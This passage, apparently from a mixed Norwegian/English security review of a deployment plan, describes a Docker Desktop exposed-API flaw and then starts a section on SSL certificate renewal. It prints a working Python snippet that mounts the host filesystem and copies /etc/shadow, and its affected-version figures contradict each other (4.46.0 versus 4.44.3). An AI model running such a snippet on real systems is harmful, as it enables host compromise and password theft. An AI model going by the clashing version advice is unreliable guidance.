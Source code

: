 `client = docker.DockerClient(base_url="tcp://192.168.65.7:2375")`

*`# Attacker can now control Docker Engine`*

`client.containers.run(`

    `"alpine",`

    `"cat /etc/shadow > /mnt/stolen_passwords",`

    `volumes=["/:/mnt"]  # Mount entire host filesystem`

`)`

**Impact:**

* **Full host compromise** (read/write any file).

* **Container breakout** (escape to host OS).

* **Data exfiltration** (steal all agent data, secrets, NAV brukerdata).

**Affected:** Docker Desktop 4.46.0 og tidligere (macOS \+ Windows).

## **Løsning: Immediate Patching**

bash

*`# Check Docker version`*

`docker --version`

*`# If < 4.44.3, VULNERABLE`*

*`# Upgrade immediately`*

*`# macOS: Download latest from docker.com`*

*`# Windows: Download latest from docker.com`*

*`# Linux: Ikke affektert (Docker Engine, ikke Docker Desktop)`*

**CRITICAL:** Hvis Osvald bruker Docker Desktop (macOS/Windows), må han **oppgradere umiddelbart** før deployment.

**If using Hetzner VPS (Linux):** **Ikke affektert** (Docker Engine har ikke denne vulnerabiliteten).

---

## **IV. SSL/TLS CERTIFICATE MANAGEMENT – INGEN AUTOMATISK RENEWAL**

## **Hva Orion Ikke Så**

**Problem:**  
 Plan sier "SSL: 0 NOK (Let's Encrypt)", men **ingen diskusjon om automatic renewal**.

**Scenario:**
